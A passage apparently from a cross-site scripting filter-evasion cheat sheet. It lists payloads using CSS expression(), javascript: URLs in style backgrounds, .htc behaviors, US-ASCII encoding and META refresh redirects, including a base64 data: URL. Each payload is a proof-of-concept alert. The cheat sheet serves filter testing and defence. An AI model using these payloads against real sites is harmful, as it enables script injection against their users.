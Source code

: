 #### STYLE Attribute that Breaks Up an Expression¶
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

(Created by Roman Ivanov)
#### IMG STYLE with Expressions¶
This is really a hybrid of the last two XSS vectors, but it really does show how hard STYLE tags can be to parse apart. This can send IE into a loop:
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

#### STYLE Tag using Background-image¶
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

#### STYLE Tag using Background¶
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>

#### Anonymous HTML with STYLE Attribute¶
The IE rendering engine doesn't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:
<XSS STYLE="xss:expression(alert('XSS'))">

#### Local htc File¶
This is a little different than the last two XSS vectors because it uses an .htc file that must be on the same server as the XSS vector. This example file works by pulling in the JavaScript and running it as part of the style attribute:
<XSS STYLE="behavior: url(xss.htc);">

#### US-ASCII Encoding¶
This attack uses malformed ASCII encoding with 7 bits instead of 8. This XSS method may bypass many content filters but it only works if the host transmits in US-ASCII encoding or if you set the encoding yourself. This is more useful against web application firewall (WAF) XSS evasion than it is server side filter evasion. Apache Tomcat is the only known server that by default still transmits in US-ASCII encoding.
¼script¾alert(¢XSS¢)¼/script¾

#### META¶
The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

##### META using Data¶
Directive URL scheme. This attack method is nice because it also doesn't have anything visible that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) for more details.
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

##### META with Additional URL Parameter¶
If the target website attempts to see if the URL contains <http://>; at the beginning you can evade this filter rule with the following technique:
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
